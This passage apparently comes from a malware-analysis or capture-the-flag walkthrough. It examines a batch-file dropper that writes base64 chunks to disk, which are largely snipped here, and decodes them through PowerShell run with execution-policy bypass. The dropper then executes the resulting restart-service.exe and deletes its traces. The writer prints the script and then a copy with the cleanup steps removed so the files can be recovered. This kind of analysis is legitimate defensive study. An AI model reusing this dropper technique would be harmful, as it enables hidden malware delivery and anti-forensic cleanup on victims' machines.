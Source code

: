 Listing the content of the `6F39` batch file reveals the following.

Code: batch

```batch
@shift /0
@echo off

if %username% == matt goto correcto
if %username% == frankytech goto correcto
if %username% == ev4si0n goto correcto
goto error

:correcto
echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
powershell.exe -exec bypass -file c:\programdata\monta.ps1
del c:\programdata\monta.ps1
del c:\programdata\oracle.txt
c:\programdata\restart-service.exe
del c:\programdata\restart-service.exe
```

Inspecting the content of the file reveals that two files are being dropped by the batch file and being deleted before anyone can get access to the leftovers. We can try to retrieve the content of the 2 files, by modifying the batch script and removing the deletion.

Code: batch

```batch
@shift /0
@echo off

echo TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA > c:\programdata\oracle.txt
echo AAAAAAAAAAgAAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5vdCBiZSBydW4g >> c:\programdata\oracle.txt
<SNIP>
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA >> c:\programdata\oracle.txt

echo $salida = $null; $fichero = (Get-Content C:\ProgramData\oracle.txt) ; foreach ($linea in $fichero) {$salida += $linea }; $salida = $salida.Replace(" ",""); [System.IO.File]::WriteAllBytes("c:\programdata\restart-service.exe", [System.Convert]::FromBase64String($salida)) > c:\programdata\monta.ps1
```
